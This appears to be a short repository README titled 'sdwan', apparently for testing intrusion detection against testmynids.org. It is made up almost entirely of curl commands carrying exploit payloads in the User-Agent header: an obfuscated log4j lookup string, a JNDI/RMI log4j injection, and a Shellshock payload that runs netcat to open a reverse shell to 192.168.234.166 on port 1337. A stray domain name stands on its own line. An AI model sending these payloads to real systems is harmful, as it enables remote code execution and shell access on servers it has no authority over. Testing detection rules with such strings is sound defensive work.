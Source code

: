 # sdwan
sdwan related


kalpoipolpmi.net


# This is DoS log4j
curl -A '${${::-${::-$${::-j}}}}' "http://testmynids.org/uid/index.html" 

curl -A '${${lower:jndi}:${lower:rmi}://127.0.0.1:1389/poc}' "http://testmynids.org/uid/index.html" 

# This is Shell shock
curl -A '() { :;}; /bin/bash -c 'nc 192.168.234.166 1337 -e /bin/sh'' "http://testmynids.org/uid/index.html" 

